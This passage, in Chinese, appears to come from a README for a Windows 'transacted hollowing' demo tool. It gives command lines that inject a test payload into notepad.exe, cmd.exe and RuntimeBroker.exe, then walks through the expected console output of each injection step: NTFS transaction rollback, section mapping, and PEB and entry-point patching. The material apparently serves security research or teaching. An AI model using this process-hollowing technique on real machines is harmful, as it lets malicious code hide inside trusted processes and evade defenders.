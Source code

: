 2. **指定目标进程（notepad.exe）**：
```bash
./transacted_hollowing.exe test_payload.exe notepad.exe
```

3. **指定其他目标进程**：
```bash
./transacted_hollowing.exe test_payload.exe cmd.exe
./transacted_hollowing.exe test_payload.exe RuntimeBroker.exe
```

### 观察要点

**1. 控制台输出**
成功的执行会显示以下步骤：
```
[0] 读取载荷文件
    载荷架构：64 位

[1] 创建 NTFS 事务
    事务句柄：0x...

[2] 创建事务性文件
    文件路径：C:\Users\...\Temp\THxxxx.tmp

[3] 写入载荷到事务性文件
    载荷大小：xxxxx 字节
    已写入：xxxxx 字节

[4] 创建内存节对象（SEC_IMAGE）
    节句柄：0x...

[5] 回滚事务（删除文件）
    事务已回滚，文件已删除
    内存节创建成功！

[6] 创建挂起的目标进程
    进程 ID：xxxxx

[7] 映射内存节到目标进程
    映射基址：0x...

[8] 更新 PEB 中的 ImageBase
    ImageBase 已更新

[9] 更新线程入口点
    入口点 VA：0x...

[10] 恢复线程执行

========== 事务性镂空完成 ==========
```
